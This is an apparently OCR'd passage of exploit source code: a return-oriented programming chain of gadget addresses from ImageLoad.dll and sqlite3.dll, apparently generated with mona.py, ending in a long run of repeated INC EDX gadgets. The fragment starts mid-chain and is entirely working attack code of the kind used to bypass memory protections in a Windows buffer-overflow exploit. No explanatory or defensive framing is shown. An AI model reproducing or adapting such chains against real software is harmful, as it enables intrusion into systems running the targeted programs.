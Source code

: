 	  # And carry on further as generated by mona.py
	  0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll] 
      0x61c18d81,  # XCHG EAX,EDI # RETN [sqlite3.dll]
      0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll] 
      0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll] 
      0x10013ad6,  # POP EBP # RETN [ImageLoad.dll] 
      0x61c227fa,  # & push esp # ret  [sqlite3.dll]
      0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll] 
	  
	  # Now bunch of ugly increments... unfortunately couldn't find anything nicer :(
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 